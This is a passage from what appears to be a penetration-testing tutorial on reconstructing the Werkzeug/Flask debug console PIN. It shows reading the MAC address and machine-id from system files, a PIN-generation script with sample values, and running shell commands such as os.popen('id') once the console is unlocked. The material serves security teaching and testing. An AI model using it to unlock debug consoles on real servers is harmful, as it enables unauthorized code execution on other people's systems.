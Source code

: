 #### Private bits

Lastly, there are two more private bits:

* `str(uuid.getnode())`:\
  The MAC address of the target, in decimal format. For example: `00:1B:44:11:3A:B7` would be `0x001B44113AB7` in hex, and `'117106096823'` in decimal. \
  It can be found by reading the `/proc/net/arp` file to find the interface in the Device column, and then request the `/sys/class/net/[interface]/address` file to get the MAC address.&#x20;
*   `get_machine_id()`:\
    The way this machine-id is found again depends on the server werkzeug version, so read the function source in the same file to be sure. But often this is the `/etc/machine-id` file, or if that does not exist, the `/proc/sys/kernel/random/boot_id` file. After this value, a part of `/proc/self/cgroup` is also added if it exists. Take the first line and this code on it (likely to be an empty string):

    {% code title="Python" %}
    ```python
    >>> b"14:misc:/".strip().rpartition(b"/")[2]
    b''
    >>> b"0::/system.slice/flask.service".strip().rpartition(b"/")[2]
    b'flask.service'
    ```
    {% endcode %}

### Generating the PIN

Finally, when you have all these required bits you can combine them in the same way the server would to recreate the PIN and access the console.&#x20;

```python
probably_public_bits = [
    'www-data',
    'flask.app',
    'Flask',
    '/usr/lib/python3/dist-packages/flask/app.py'
]
private_bits = [
    '345050109109',
    'e5987d8fd3a14193bb997b6afbdf2cca' + 'flask.service'
]

...  # <Insert werkzeug/debug/__init__.py -> get_pin_and_cookie_name() code here>

print(rv)  # 123-456-789
```

This should then generate the correct console PIN that you can put into the prompt when you try to execute Python code. After this is unlocked, you can simply run system commands:

```python
>>> import os
>>> os.popen('id').read()
'uid=33(www-data) gid=33(www-data) groups=33(www-data)'
```
